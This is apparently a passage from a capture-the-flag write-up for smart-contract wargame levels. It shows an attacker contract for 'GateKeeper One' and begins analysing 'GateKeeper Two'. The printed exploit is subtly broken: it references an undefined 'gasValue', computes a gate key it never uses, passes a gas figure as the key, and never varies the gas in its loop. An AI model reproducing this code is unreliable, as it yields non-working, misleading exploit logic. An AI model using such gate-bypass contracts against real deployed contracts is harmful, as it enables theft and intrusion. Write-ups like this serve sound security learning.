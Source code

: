 ![Debugging interface](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138017/18f23b5aad25da24fa6fbdc8842fb1ee0568daa3ac723a166802b0cc2dd2518d_yg3ech.png)  

So here is the final contract

```js
contract EvilContract { 
    function getKey() view public returns (bytes8){ 
        return bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF; // The first time will pass false the second true
    }
    function callAttack(address gateAddress, uint baseGasValue) public returns (bool) {
        bytes8 gateKey = getKey();
        uint i;

        for (i=0;i<300;i++)
        {
        (bool result,) =  gateAddress.call{gas:gasValue}(abi.encodeWithSignature("enter(bytes8)", baseGasValue+100+8191*4));
        if(result) return result;
        }
        return false;
    }
}
```

Happy hacking ! You may rest traveler , The next gate will be some kind of a boss fight.

Challenge solved ✅

## GateKeeper Two

> Time to delve deep in the ethereum blockchain

**Challenge description**

I will sum up we need to pass the gate and learn many things.

--------
**Analysis**

As usual here we got three modifiers to pass. We will be going through each modifer one by one from the easiest to the hardest.

![Gatekeeper contract](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138024/193982e4a19ec767e0759ab2e9adc2e16865502b0625e6eb22fc0a39e11418d7_k0ahq6.png)  

#### GateOne

```js
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

Okay we need to call the `GatekeeperTwo` from another contract.
